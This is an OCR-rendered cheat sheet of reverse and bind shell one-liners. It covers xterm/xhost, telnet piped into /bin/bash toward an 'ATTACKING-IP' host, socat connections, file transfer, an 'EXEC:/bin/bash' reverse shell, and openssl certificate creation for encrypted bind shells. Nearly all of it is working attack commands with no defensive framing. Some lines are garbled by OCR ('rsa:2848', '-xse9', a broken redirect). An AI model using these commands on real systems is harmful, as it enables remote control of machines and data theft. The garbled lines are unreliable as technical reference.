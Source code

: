 ## Xterm

```
xterm -display 10.0.0.1:1 → host

Xnest :1 → attacker allow connection

xhost +targetip → attacker
```

## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## Socat

### connect

```
socat - TCP4:[ip]:[port] 
socat TCP4-LISTEN:[port] STDOUT
```

### file transfer

```
sudo socat TCP4-LISTEN:443,fork file:file.txt
socat TCP4:18.11.8.4:443 file:file.txt,create
```

### reverse shell

```
socat -d -d TCP4-LISTEN:443 STDOUT
socat TCP4:18.11.8.22:443 EXEC:/bin/bash
```

### Encrypted Bind Shells

​​create a cert with openssl:

```
openssl req -newkey rsa:2848 -nodes -keyout shell.key -x509 -days 365 -out shell.crt
```

```
req: initiate a new certificate signing request
-newkey: generate a new private key
rsa:2848: use RSA encryption with a 2,048-bit key length.
-nodes: store the private key without passphrase protection
-keyout: save the key to a file
-xse9: output a self-signed certificate instead of a certificate request
-days: set validity period in days
-out: save the certificate to a file
```
